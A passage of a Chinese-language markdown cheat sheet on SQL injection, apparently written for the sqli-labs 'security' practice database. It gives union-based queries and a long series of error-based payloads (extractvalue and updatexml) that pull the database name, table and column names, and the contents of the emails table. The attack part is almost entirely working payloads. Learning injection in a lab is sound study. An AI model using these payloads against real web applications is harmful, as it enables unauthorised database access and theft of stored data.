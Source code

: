 ```
id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()
```
***（7）获取列名（columns表）***
```
select column_name from columns where table_schema='security' and table_name='users';
```
***（8）优化步骤***
```
select table_name,column_name from columns where table_schema='security';
id=1' union select 1,2,group_concat(table_name,'_',column_name) from information_schema.columns where table_schema=database()
```
***（9）获取数据***
```
  --dump</br>
```
### 2、报错注入：
报错注入语句(本查询结果基于数据库security下的表) （updatexml/ extractvalue）</br>
1#查询数据库名字（用户user()；版本version()）</br>
```
?id=1' and extractvalue(1,concat(0x7e,(select database()),0x7e))%23</br>
```
2#查询数据库有多少个表</br>
```
?id=1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e))%2
```
3#查询数据库的表名，limit后面第一个数字表示第几个表</br>
```
?id=1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e))%23
```
4#查询列名，limit后数字表示第几列</br>
```
?id=1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e))%23
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='emails'),0x7e))%23
```
5#查询表里面某列的内容</br>
```
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(id) from security.emails),0x7e))%23    
```
1#查询数据库名字，数据库名字为security（用户user()；版本version()）</br>
```
?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23
```
2#查询数据库有多少个表</br>
```
?id=1' and updatexml(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23  
```
3#查询数据库的表名，limit后第一个数字表示第几个表</br>
```
?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)%23  
```         
4#查询列名，limit后数字表示第几列</br>
```
?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e),1)%23
```
5#查询表里面某列的内容</br>
```
?id=1' and updatexml(1,concat(0x7e,(select group_concat(email_id) from security.emails),0x7e),1)%23</br>
```